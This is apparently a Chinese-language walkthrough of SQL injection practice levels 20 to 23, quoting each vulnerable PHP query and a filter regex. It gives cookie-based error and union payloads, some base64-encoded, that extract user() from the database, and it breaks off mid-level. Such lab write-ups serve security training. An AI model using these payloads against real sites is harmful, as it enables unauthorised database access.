 

OR (SELECT 8370 FROM(SELECT COUNT(*),CONCAT(0x716a767671,(SELECT (ELT(8370=8370,1))),0x71706a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'Jgwd'='Jgwd 



##第20关 

第147行，$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1"; 

Cookie: uname=admin'and updatexml(1,concat(0x7e,user()),1) -- + 



##第21关 

单引号+括号，有报错函数 

源码：$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1”; 

**payload**

Cookie: uname=YScpIHVuaW9uIHNlbGVjdCAxLDIsdXNlcigpIw== 

(Decode:a') union select 1,2,user()#) 





##第22关 

双引号+base64 

存在mysql报错函数 

源代码：

*$cookee = base64_decode($cookee);*

*$cookee1 = '"'. $cookee. '"';*

*echo "</font>";*

*$sql="SELECT \* FROM users WHERE username=$cookee1 LIMIT 0,1";*

**Payload:**

Cookie: uname=YSIgdW5pb24gc2VsZWN0IDEsMix1c2VyKCkj 

（decode: a" union select 1,2,user()#） 



#Page-2 (Adv Injections)

##第23关 

单撇报错注入 

过滤了注释符— # 

**源代码:**

*$reg = "/#/";*

*$reg1 = "/--/";*
